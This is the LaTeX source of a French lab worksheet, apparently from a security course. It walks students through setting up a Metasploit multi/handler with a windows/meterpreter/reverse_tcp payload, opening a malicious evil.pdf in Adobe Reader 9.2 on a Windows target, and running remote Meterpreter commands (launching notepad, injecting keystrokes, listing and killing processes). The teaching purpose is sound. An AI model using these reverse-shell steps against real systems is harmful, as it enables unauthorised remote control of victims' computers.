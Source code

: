 \documentclass{article}
\begin{document}
\begin{enumerate}
\item Revenez sur la machine Kali et exécutez les commandes suivantes :
    \begin{itemize}
        \item \texttt{use exploit/multi/handler} : sélectionne l'exploit générique permettant de gérer les connexions entrantes provenant du payload , c'est quoi un handler et payload ?
        \item \texttt{set payload windows/meterpreter/reverse\_tcp} : définit le payload utilisé pour établir une connexion inverse (reverse shell) depuis la machine cible Windows vers Kali Linux via TCP , c'est quoi reverse shell?
        \item \texttt{show options} : affiche les options actuelles du payload. Vérifiez que l'option \texttt{LHOST} correspond bien à l'adresse IP de votre machine Kali. Si ce n'est pas le cas, utilisez la commande : \texttt{set LHOST <IP\_KALI>}. Assurez-vous également que \texttt{LPORT} est configuré sur 4444.
        \item \texttt{exploit} : lance l'écoute et attend que la victime ouvre le fichier malveillant pour établir la connexion Meterpreter.
    \end{itemize}
 
    \begin{itemize}
        \item Depuis votre machine Windows, ouvrez le fichier \texttt{evil.pdf} avec Adobe 9.2. Si Adobe vous propose 
    d'enregistrer un fichier nommé \texttt{template.pdf}, choisissez le même emplacement que le fichier 
    \texttt{evil.pdf}. Quel est le message affiché après avoir cliqué sur \texttt{Enregistrer} ? 
    Ouvrez ensuite le fichier \texttt{template.pdf}.
    \end{itemize}

\item Que remarquez-vous sur la machine Kali Linux ? Exécutez les commandes suivantes sur la machine Kali :
    \begin{itemize}
        \item \texttt{pwd} : que fait cette commande ?
        \item \texttt{execute -f notepad.exe} : exécute l'application \texttt{notepad.exe} sur la machine Windows depuis Kali.
        \item \texttt{keyboard\_send "Bonjour Je Suis Un Attaquant"} : que remarquez-vous sur le bloc-notes ouvert sur la machine Windows ?
        \item \texttt{ps} : que fait cette commande ?
        \item \texttt{kill <PID>} : permet de tuer n'importe quel processus actif sur la machine Windows depuis Kali en spécifiant son PID (Process ID).
    \end{itemize}
\end{enumerate}
\end{document}
